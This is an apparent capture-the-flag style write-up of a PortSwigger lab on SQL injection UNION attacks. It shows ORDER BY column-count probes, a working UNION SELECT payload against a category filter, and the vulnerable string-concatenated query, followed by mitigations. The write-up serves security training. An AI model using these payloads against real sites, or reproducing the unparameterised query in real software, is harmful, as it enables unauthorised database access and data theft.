


# SQL injection UNION attack, finding a column containing text

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text` |

---

## Lab Objective

The product category filter is vulnerable to SQL injection and its results are reflected in the response. Find a column that is compatible with string/text data so that later `UNION` attacks know where to place useful text values. To solve the lab, display the lab-supplied random string in the page.

---

## Skills Learned

- Confirming the column count with `ORDER BY`
- Why a `UNION` must match the original query's column count
- Probing each column with a known string to discover which ones accept text data
- Why `NULL` is the safe placeholder for testing other columns

---

## Recon

The category filter is injected via the URL:

```http
GET /filter?category=Food+%26+Drink
```

The lab supplies a random string to display — in this instance **`TPQs8r`**.

---

## Finding the Vulnerability

The response reflects the SQL results into the page, so a `UNION SELECT` can inject my own row. A `UNION` requires the injected `SELECT` to return the **same number of columns** as the original query — otherwise the database throws an error. So before anything else I had to find out how many columns the query returns.

Using `ORDER BY`, I incremented the column index until the query failed:

`category=Food+%26+Drink' ORDER BY 4--` returned a **500 error** — column 4 doesn't exist, so the query returns **3 columns**.



---

## Exploitation Steps

1. Confirmed the query returns **3 columns** (`ORDER BY 4` failed).
2. Built the `UNION` with three `NULL` placeholders. `NULL` is compatible with every column type, so it never errors on type alone — only a column-count mismatch breaks it. That lets me probe types column-by-column without knowing the schema.
3. Replaced one `NULL` at a time with the lab string `TPQs8r`, starting from the first column. A column is **text-compatible** if the query accepts the string and the page displays it.
4. The second column worked. Final payload:

```http
GET /filter?category=Food+%26+Drink'+UNION+SELECT+NULL,'TPQs8r',NULL-- HTTP/2
```

5. The response came back **200 OK** and displayed the string — the second column accepts text data.

6. Lab solved.



---

## Payload

```http
GET /filter?category=Food+%26+Drink'+UNION+SELECT+NULL,'TPQs8r',NULL-- HTTP/2
```

The probes that led to it:

```http
GET /filter?category=Food+%26+Drink'ORDER BY 1--
GET /filter?category=Food+%26+Drink'ORDER BY 2--
GET /filter?category=Food+%26+Drink'ORDER BY 3--
GET /filter?category=Food+%26+Drink'ORDER BY 4--   (500 error → 3 columns)
```

---

## Why It Works

The original query looks roughly like:

```sql
SELECT * FROM products WHERE category = 'Food & Drink'
```

### Why the `UNION` must match the column count

A `UNION` concatenates both result sets row by row. The database enforces that both `SELECT` statements return the **same number of columns**; a mismatch raises an error. Finding the count first (`ORDER BY` fails past column 3) guarantees the injected `SELECT` is valid.

### Why `NULL` is used

`NULL` is type-agnostic — it can stand in for a column of any data type. Using it in all but one position means the only thing being tested is whether the remaining column accepts the value placed there, not whether the query as a whole is type-compatible. It's the cleanest way to probe a single column at a time.

### Finding the text column

Replacing one `NULL` at a time with the probe string isolates each column:

- `SELECT 'TPQs8r', NULL, NULL` — fails if column 1 rejects text
- `SELECT NULL, 'TPQs8r', NULL` — this succeeded: column **2** displays the string
- `SELECT NULL, NULL, 'TPQs8r'` — would test only column 3

Because the app echoes the string when it lands on a string-compatible column, the 200 response with the string visible confirms the column type.

---

## Root Cause

The `category` parameter is concatenated directly into the SQL query with no parameterization or validation:

```python
query = "SELECT * FROM products WHERE category = '" + category + "'"
```

This exposes the query structure (column count and types) to the attacker through a `UNION`.

---

## Impact

Knowing which columns accept text is the prerequisite for data-dump `UNION` attacks in which your columns carry strings (usernames, passwords, version banners). Without a text-compatible column, useful payloads that need to render text into the page would fail.

---

## Mitigation

- **Use parameterized queries / prepared statements**
- **Validate/whitelist** the `category` parameter against a fixed set
- **Apply least privilege** — restrict what the DB account can read
- Suppress verbose SQL error output so the `ORDER BY` probes don't leak query structure

---

## Key Takeaways

- Count columns before building the `UNION`; `ORDER BY` past the count errors cleanly
- `NULL` placeholders prevent type errors while you size or probe a query
- Swap one `NULL` at a time for the probe string to isolate exactly which column accepts text
- The reflected echo of your string is the confirmation signal

---

## Related Labs

- [04 - SQL injection UNION attack, determining the number of columns returned by the query](../04%20-%20SQL%20injection%20UNION%20attack%2C%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query/README.md) — pick up right after sizing the query and find the text-capable column
- [10 - SQL injection UNION attack, retrieving data from other tables](../10%20-%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables/README.md) — that text column then carries `username`/`password` rows out
- [11 - SQL injection UNION attack, retrieving multiple values in a single column](../11%20-%20SQL%20injection%20UNION%20attack%2C%20retrieving%20multiple%20values%20in%20a%20single%20column/README.md) — a variant that packs two values into that one column

---

## References

- [PortSwigger: SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [PortSwigger: Finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks#finding-a-column-containing-text)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)